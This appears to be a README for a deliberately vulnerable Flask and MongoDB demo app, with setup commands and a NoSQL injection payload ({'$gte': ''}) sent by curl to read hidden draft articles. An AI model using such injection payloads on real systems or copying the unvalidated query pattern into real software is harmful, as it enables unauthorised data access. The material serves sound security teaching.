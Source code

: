 We have provided a sample python web application coded in Flask that accept a post category in a JSON Body in a vulnerable way. You can also find a script that will exploit this vulnerability to retrieve the expected token.

### Run the web application

In order to run the web application, you'll need a MongoDB database running.

First create a virtualenv:

```bash
python -m virtualenv -p $(which python3) venv
source venv/bin/activate
```

Then install the dependencies:

```bash
pip install -r requirements.txt
```

Inject some articles by running:

```bash
python inject_articles.py
```

You can then run the web application this way:

```bash
python app.py
```

You can now get the articles in the `python` category with:

```bash
$> curl -X POST -H "Content-Type: application/json" -d '{"category": "python"}' "http://localhost:5000/category/"
[{"category": "python", "title": "Running js in python"}]
```

Or in the `security` category with:

```bash
$> curl -X POST -H "Content-Type: application/json" -d '{"category": "security"}' "http://localhost:5000/category/"
[{"category": "security", "title": "How to safely store password"}]
```

But you can't get the articles in the `drafts` category:

```bash
$> curl -X POST -H "Content-Type: application/json" -d '{"category": "drafts"}' "http://localhost:5000/category/"
[]
```

### Hack the application

The category endpoint is accepting data without first validating it, so we can actually send a json object and do a Mongodb injection with this payload

```json
{"$gte": ""}
```

With this payload, the endpoint will returns all articles with a category, include the ones in the `drafts` category:

```bash
$> curl -X POST -H "Content-Type: application/json" -d '{"category": {"$gte": ""}}' "http://localhost:5000/category/"
[{"category": "python", "title": "Running js in python"},
 {"category": "security", "title": "How to safely store password"},
 {"category": "drafts", "title": "My secret draft"}]
```

### Use docker

We also provided a docker-compose file that you can use if you don't have or want to have a running MongoDB process.

First you can build with:

```
docker-compose build .
```

Then launch it with:

```
docker-compose up
```

The service is now accessible at ```http://localhost:5000``` and you can use the same `curl` commands as above.
